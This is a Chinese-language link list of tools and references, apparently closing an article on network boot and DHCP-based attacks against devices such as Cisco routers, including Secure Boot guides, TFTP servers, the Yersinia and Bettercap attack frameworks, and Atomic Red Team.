- [Cisco Secure Boot 文档](https://www.cisco.com/c/en/us/td/docs/ios-xml/ios/sec_data_usr_cfg/security/configuration/15-mt/sec-data-usr-cfg-15-mt-book/sec-secure-boot.html) - Secure Boot 配置指南
- [tftpd-hpa](https://wiki.archlinux.org/title/TFTP) - Linux TFTP 服务器
- [dnsmasq](https://thekelleys.org.uk/dnsmasq/doc.html) - 集成 DHCP + TFTP + DNS 服务器
- [Yersinia](https://github.com/tomacr/yersinia) - DHCP 投毒与二层协议攻击工具
- [Bettercap](https://www.bettercap.org/) - 现代 MITM 与网络攻击框架
- [Atomic Red Team](https://github.com/redcanaryco/atomic-red-team) - 检测规则测试框架（参考 T1542 测试用例）

### 📚 学习资料（深入了解）

- [Cisco IOS Software Integrity Assurance](https://tools.cisco.com/security/center/resources/integrity_assurance.html) - Cisco 官方镜像完整性保证指南
- [PXE Specification](https://www.intel.com/content/www/us/en/architecture-and-technology/unified-extensible-firmware-interface/efi-and-uefi-specifications.html) - Intel PXE 规范
- [MITRE ATT&CK Navigator](https://mitre-attack.github.io/attack-navigator/) - ATT&CK 可视化工具
- [Cisco Talos Blog](https://blog.talosintelligence.com/) - Cisco Talos 威胁情报博客，持续跟踪网络设备攻击
